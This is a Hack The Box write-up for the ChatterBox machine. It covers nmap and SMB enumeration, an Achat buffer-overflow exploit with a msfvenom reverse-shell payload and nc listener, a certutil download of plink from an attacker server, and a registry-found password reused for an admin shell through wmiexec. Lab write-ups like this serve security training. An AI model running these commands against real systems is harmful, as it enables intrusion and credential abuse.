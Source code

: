 # ChatterBox [HTB](https://app.hackthebox.com/machines/Chatterbox)
![chatterbox-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/chatterbox-01.png)



## Recon

Lets enumerate the machine with `nmap`:

`nmap -sC -sV -A 10.129.214.7 -oN nmap.result`


![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/nmap-res-02.png)


We
We get the following ports:

+ RPC endpoint-mapper on port 135.
+ SMB on port  445.
+ NetBIOS on port 139.
+ HTTP on port 9255.
+ Custom TCP service on port 9256.
+ Other RPC endpoint on 49152-49157.


We can also see the target is probably a Windows 7 system. 
Lets start by taking a look at the SMB and RPC endpoints and see if we can snatch any quick 
wins there. 



### SMB


Altough we can login anonymously to the IPC$ share with `smbclient -U "%" -N \\\\10.129.214.7\\IPC$`:

![ipc-connect-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ipc-connect-03.png)


We cant do anything inside: 

![ipc-fail-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ipc-fail-04.png)


If we check the SMB version with msf's `scanner/smb/smb_version`, well see that the target 
is running SMB v2.1: 

![msf-res-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/msf-res-05.png)



SMB v2.1, should be vulnerable to `Eternal-Blue`, but after a quick check our target is not:
`scanner/smb/smb_ms17_010`

![eb-res-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/eb-res-06.png)
 

At the moment, SMB doesnt look like the way forward, `enum4linux` yields nothing meaningful, 
and it seems that the SMB is tightly guarded. 

Lets move on to check the HTTP and the custom RPC port. 



### Achat


Trying to open the following URL `http://10.129.214.7:9255/`, quickly fails, nothing happens, 
no error message or redirects. Adding the hostname to our `/etc/hosts` doenst help. 


If we open Burp, we can see we are getting a `204 No-Content` replay: 

![204-replay-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/204-replay-07.png)



At first i thought Achat was a custom service tailored for this box specifically. But after
a quick goolge search i came to find out i was worng. Apparently its an open-source anonymous chat
application, and it has a [github](https://github.com/0301yasiru/aChat).


A quick google search also leads to [this](https://tenaka.gitbook.io/pentesting/boxes/achat) page.
Apparently, Achat is vulnerable to a buffer-overflow attack, and we have the exploit ready on 
our Kali machine in `/usr/share/exploitdb/exploits/windows/remote/36025.py`. 


Here is the exploit breakdown: 

copy the exploit to our CWD `cp /usr/share/exploitdb/exploits/windows/remote/36025.py achat.py`

update the shellcode with the following `msfvenom` command:

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp lhost=<myip> lport=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Take the output, and replace the `buf` varaible in the exploit with it.
Finally, change the target IP in the exploit:

![target-exp-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/target-exp-08.png)


Start the listener: `nc -lnvp 4444`


Execute the exploit `./achat.py`


Get a shell: 

![shell-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/shell-09.png)


## Privilege Escalation


After running a few basic commands from [sushant](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)'s cheat sheet, i found something interesting. 

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`


![pass-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/pass-10.png)


If we list out our open ports on the machine with `netstat -ano` we can see the following: 


![netstat-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/netstat-11.png)


We have all these ports running on the localhost. nmap did manage to detect them for some 
reason. Now that we have credentials however, we could try to get access to them. But since they 
are running on the localhost, we need to setup port forwarding to our attack machine. 

For this we need [plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html),
Download the 32-bit version to your attack machine.

Start a python server `python3 -m http.server 8888`

Download it to the target with `certutil -urlcache -f http://10.10.14.21:8888/plink.exe plink.exe`

![transfer-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/transfer-12.png)


Now we need to change two things in the `/etc/sshd/sshd_config` file on our kali.

First, permit root logins: 

![ssh-mod-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ssh-mod-13.png)


Second, change the deafult port to 2222:

![ssh-mod-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/ssh-mod-14.png)


This is necessary beacuse HTB's firewalls block port 22. 
Finally start the ssh service with `service ssh start`.

Now we can run the port forwarding on the target machine with:
`plink.exe -l root -pw <pass> -R 445:127.0.0.0.1:445 10.10.14.68 -P 2222`


![plink-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/plinkk-15.png)


On our Kali machine we can check the status of port 445 with `netstat -ao | grep 445`:


![445-status-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/445-status-16.png)


We can now start connecting to the SMB on the target through our localhost. 
Lets try logging in to the `Admin$` share with 

`smbclient -U 'Alfred%Welcome1!' //127.0.0.1/Admin$`

![admin-fail-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/admin-fail-17.png)


This fails, says we dont have access. What if we tried to use the same password with the 
Administrator account, after all Alfred and Administrator are the only two users on the machine.
And weve only found this one password in our enumeration, worth a shot. 


![admin-success-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/admin-success-18.png)



That's it, they use the same password. From here we can use `wmiexec` to pop a shell as the admin. 

`impacket-wmiexec Administrator:Welcome1\!@10.129.151.176`


![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ChatterBox/img/root-19.png)
